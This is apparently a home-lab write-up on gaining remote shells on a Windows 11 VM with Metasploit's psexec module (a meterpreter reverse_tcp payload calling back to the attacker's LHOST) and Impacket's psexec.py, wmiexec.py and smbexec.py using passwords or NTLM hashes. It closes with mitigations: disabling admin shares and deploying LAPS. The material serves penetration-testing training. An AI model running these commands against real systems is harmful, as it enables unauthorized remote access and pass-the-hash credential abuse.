









# Shell Access (PSExec Attacks)

Gaining shell access into a remote host is key, as it allows an attacker to achieve further objectives (persistence, privilege escalation, data exfiltration, etc).

We can gain shell access into a victim host via different methods, three of them including:
* [Metasploit](https://www.metasploit.com/) exploit */windows/smb/psexec*
* [Impacket](https://github.com/fortra/impacket) *psexec.py*
* [Impacket](https://github.com/fortra/impacket) *wmiexec.py* and *smbexec.py*

## VMs Involved in the Attack
In our scenario, we will have **two** VMs running at the same time:
* Kali Linux (later referred to as Attacker VM)
* Windows 11 user machine 1 (Phantom VM)

### Ensuring Windows Machine is Vulnerable
To ensure the attacks are successful, you may need to turn off **Real-time protection** under Windows *Virus & threat protection settings*.

## Attack Setup
Before starting these attacks, you need to have two things:
1. NTLM hashes for users on the Windows 11 victim machine. These will be needed for authentication during the attack sequence.
2. Clone Fortra's [Impacket](https://github.com/fortra/impacket) repository: `git clone https://github.com/fortra/impacket.git` This contains the scripts psexec.py, wmiexec.py and smbexec.py that will be used during the attack.

## Attack Method 1: Using Metasploit psexec Exploit
### Gain Domain User Access via Their Password
The attack has three main steps:
1. Launch the Metasploit Framework
2. Search for and use the psexec exploit module
3. Configure the exploit's options and run it

Launch Metasploit using the command `msfconsole`. We can search all modules for *psexec* using `search psexec`. Metasploit will list all search results, including:
```
 24  exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
   25    \_ target: Automatic
   26    \_ target: PowerShell
   27    \_ target: Native upload
   28    \_ target: MOF upload
   29    \_ target: Command
```

Now we can use the module using either:
* `use exploit/windows/smb/psexec` (providing full module path)
* `use 24` (module number for exploit/windows/smb/psexec based on search results)

List all of the exploit options using `options`. The full list is:



The options we need to configure are:
* payload
* RHOSTS & LHOST
* SMBDomain, SMBUser, SMBPass

Set the **payload** to use x64 architecture: `set payload windows/x64/meterpreter/reverse_tcp`

Set the **RHOSTS** to the Windows 11 host's IP (in my case Phantom VM): `set RHOSTS [IP ADDRESS]`

Set the **LHOST** to the Attacker VM's IP: `set LHOST [IP ADDRESS]`

Set the **SMBDomain** to the domain name (in my case was MEDDLING.local): `set SMBDomain [DOMAIN NAME]`

Set the **SMBUser** to the domain user we will authenticate as (in my case was vdinkley): `set SMBUser [USERNAME]`

Set the **SMBPass** to that domain user's password: `set SMBPass [PASSWORD]` 

Before continuing, you can run `options` again to confirm that all options have been configured correctly.

Now run the exploit using `run` and you should have a meterpreter shell returned.



### Gain Local User Access via Their NTLM Hash
The attack has the same three main steps as the previous one:
1. Launch the Metasploit Framework
2. Search for and use the psexec exploit module
3. Configure the exploit's options and run it

Assuming that you will execute this after the previous attack, you will only need to configure three options: *SMBDomain, SMBUser, and SMBPass*.

We will need to *unset* the **SMBDomain** option as we're not using a domain for authentication: `unset SMBDomain`

Set the **SMBUser** to the local machine user we will authenticate as (in my case was Administrator): `set SMBUser [USERNAME]`

Set the **SMBPass** to that local user's NTLM hash: `set SMBPass [HASH]` 

Before continuing, you can run `options` again to confirm that all options have been configured correctly.

Now run the exploit using `run` and you should have a meterpreter shell returned.



## Attack Method 2: Using Impacket psexec.py
### Gain Domain User Access via Their Password
Using psexec.py to gain domain user level shell access is quite straightforward. The full command needed is: `python3 psexec.py [DOMAIN]/[DOMAIN USERNAME]:'[PASSWORD]'@[VICTIM IP]`

You should have an interactive shell returned.



#### Troubleshooting psexec.py SMB SessionError
In case you have the error **SMB SessionError: code: 0xc000018d - STATUS_TRUSTED_RELATIONSHIP_FAILURE** thrown during this attack, you need to repair the trust relationship between the Windows 11 VM and the Domain Controller.

On the Windows 11 VM , open a new PowerShell window *as Administrator* and run the command `Test-ComputerSecureChannel -Credential [DOMAIN NAME]\administrator -Repair`. You should see a pop-up window asking for a password. Enter the password for your Domain Administrator.

The result of the `Test-ComputerSecureChannel` command should be **True** in order for the attack to be successful.

### Gain Local User Access via Their NTLM Hash
Using psexec.py to gain local user level shell access is just as simple. The full commmand needed is: `python3 psexec.py [USERNAME]@[VICTIM IP] -hashes [NTLM HASH]`

You should have an interactive shell returned.



## Attack Method 3: Using Impacket wmiexec.py and smbexec.py
We can use other scripts in the Impacket collection to achieve shell access on a remote host. In this case, we will use these scripts to authenticate as a local user via their NTLM hash. In both cases, you will have a semi-interactive shell returned.

The usage for both scripts is identical to that of psexec.py:

`python3 wmiexec.py [USERNAME]@[VICTIM IP] -hashes [NTLM HASH]`



`python3 smbexec.py [USERNAME]@[VICTIM IP] -hashes [NTLM HASH]`



## Mitigating PSExec Attacks
**1. Disable the default Admin Shares**

PSExec uploads an executable to a writable Admin share. By disabling these shares altogether, we can prevent adversaries from leveraging them. 

This can be accomplished by editing the SYSTEM Registry hive on workstations and servers alike.

For workstation mitigation: 
You must create and/or modify the `AutoShareWks` DWORD value under the the key **HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters**

If the AutoShareWks value exists, set the Value Data to **0**. 

If the AutoShareWks value does not exist, do the following:
1. Right-click the empty space and select **New > DWORD (32-bit) Value**
2. Name it **AutoShareWks** and double-click it to open the *Edit DWORD (32-bit) Value window
3. Edit the **Value data** to **0** then click **OK**



For server mitigation: 
You must create and/or modify the `AutoShareServer` DWORD value under the the key **HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters**

If the AutoShareServer value exists, set the Value Data to **0**. 

If the AutoShareServer value does not exist, do the following:
1. Right-click the empty space and select **New > DWORD (32-bit) Value**
2. Name it **AutoShareServer** and double-click it to open the *Edit DWORD (32-bit) Value window
3. Edit the **Value data** to **0** then click **OK**



**2. Implement LAPS (Local Administrator Password Solution) on all servers and workstations.**

LAPS ensures every server and workstation have unique, randomized local Administrator passwords. 

Since PSExec requires administrative privileges in order to execute, we must limit the possibility of PSExec using stolen admin credentials. In the case that one local Administrator user is compromised, we can prevent that hash from authenticating across multiple machines via Pass-the-Hash attacks.

### Sources
* https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/remove-administrative-shares
* https://www.cayosoft.com/blog/pass-the-hash/ 
